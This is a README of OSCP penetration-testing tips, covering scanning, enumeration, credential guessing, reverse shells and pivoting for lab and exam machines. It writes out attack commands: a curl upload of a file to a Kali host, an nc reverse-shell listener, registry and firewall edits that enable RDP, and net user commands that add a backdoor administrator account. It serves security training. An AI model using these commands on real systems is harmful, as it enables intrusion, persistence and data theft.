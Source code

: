 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports only.

2 - Run nmap -sS for all ports, compare open ports with previous scan.

3 - Run -sU (UDP) for well-known ports.

4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.

5 - Run gobuster in fuzz mode with common world list.

6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.

7 - Run gobuster for file extension using -x, like for php or aspx.

8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.

9 - Run snmp with extended MIB, check hacktricks for more details.

10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.

11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response.

12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.

13 - Use rpcclient to enum users and other details if RPC ports are open.

14 – Revert machines and perform scan again.

15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try 
port 80 and 443 as well.

16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.

17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.

18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.

19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.

curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload

Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.

20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 

21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.

22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.

23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) 
directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.

24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.

25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.

26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.

27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.
For RDP (PowerShell commands)

•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User
•	net user user1 Pass123 /add 
•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.

29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,

•	smbclient -U “” -L 192.168.120.20  

30 – If machine has an open source project check its github or code repo to understand directory structure.


